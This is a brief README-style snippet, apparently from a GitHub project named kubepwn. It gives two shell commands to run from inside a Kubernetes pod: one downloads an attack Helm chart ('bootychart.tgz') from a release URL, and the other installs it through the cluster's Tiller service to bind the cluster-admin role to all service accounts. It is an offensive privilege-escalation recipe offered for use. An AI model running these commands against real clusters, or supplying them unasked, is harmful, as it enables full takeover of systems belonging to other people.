# Bind cluster-admin role to all service accounts for fun and profit

Quick qua to get it in a pod:

```bash
curl -sLO https://github.com/alexivkin/kubepwn/releases/download/0.1/bootychart.tgz
./helm --host tiller-deploy.kube-system:44134 install bootychart.tgz
```
